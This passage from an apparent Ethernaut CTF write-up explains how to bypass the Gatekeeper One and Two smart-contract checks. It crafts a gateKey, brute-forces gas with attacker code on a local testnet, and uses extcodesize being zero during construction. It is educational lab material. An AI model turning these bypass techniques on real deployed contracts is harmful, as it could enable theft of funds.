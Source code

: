 We need to pass in an 8-byte array. Each check compares a value to `uint32(uint64(_gateKey))` which are the lower bits `gateKey[4-7]`.
Let's start from front to back with `0x0000000000000000`. The last two bytes need to equal the last two bytes of our eoa address which in our case is `D74c`.

```javascript
const uint16TxOrigin = address.slice(-4)
const gateKey = `0x000000000000${uint16TxOrigin}`
```

Keeping the zeroes in the lower 4 bytes already passes the first check.
To also pass the second one, the total number needs to be different but we cannot change the lower 4 bytes. So we just flip something in the upper bytes.

```javascript
const gateKey = `0x100000000000${uint16TxOrigin}`
```

The final modifier check that we need to pass is the second `gasleft() % 8191` check.
Note that the gas costs per instruction can change with different hard forks.
It's probably easiest to solve this using a debugger.
But as I am running everything on a local testnet, I can just brute-force the gas costs trying 8191 different consecutive values.
It only takes a couple of seconds.

```solidity
function attack(bytes8 gateKey, uint256 gasToUse) external payable {
    challenge.enter{gas: gasToUse}(gateKey);
}

// brute force this using local hardhat network
const MOD = 8191
const gasToUse = 800000
for(let i = 0; i < MOD; i++) {
  console.log(`testing ${gasToUse + i}`)
  try {
    tx = await attacker.attack(gateKey, gasToUse + i, {
      gasLimit: `950000`
    });
    break;
  } catch {}
}
```

## 14. Gatekeeper Two

The second gatekeeper challenge is a bit easier. Again some modifier checks need to be passed.
The `enter` function needs to be called from a contract again but its code size needs to be zero.
However, `extcodesize` only returns the correct value once the contract is constructed.
While the constructor of our contract is executing it'll return zero.
Which means we will need to call the `enter` function from our constructor with the correct `gatekey` value.
The `gatekey` value can easily be computed within the same contract if we know that `xor` forms an abelian group and each element is its own inverse, i.e., it's commutative and `x ^ x == 0`.
